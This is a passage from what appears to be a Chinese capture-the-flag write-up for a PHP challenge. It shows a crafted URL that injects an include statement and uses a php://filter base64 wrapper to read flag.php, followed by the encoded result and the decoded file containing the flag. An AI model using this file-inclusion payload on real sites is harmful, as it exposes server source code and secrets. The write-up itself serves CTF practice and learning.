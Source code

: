 还是不影响。继续

```php
http://43cacb9f-c090-468b-a04a-faa15c20c924.challenge.ctf.show/?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image 17.png" alt=""><figcaption></figcaption></figure>

得到base64编码为

```php
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0wNCAwMDo0OToxOQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDQgMDA6NDk6MjYNCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KJGZsYWc9ImN0ZnNob3d7OTU4N2JlNWEtYjdlMS00YzdjLWJkN2ItYmZkZTFmNmZlYWU4fSI7DQo=
```

解码得

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:49:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$flag="ctfshow{9587be5a-b7e1-4c7c-bd7b-bfde1f6feae8}";

```
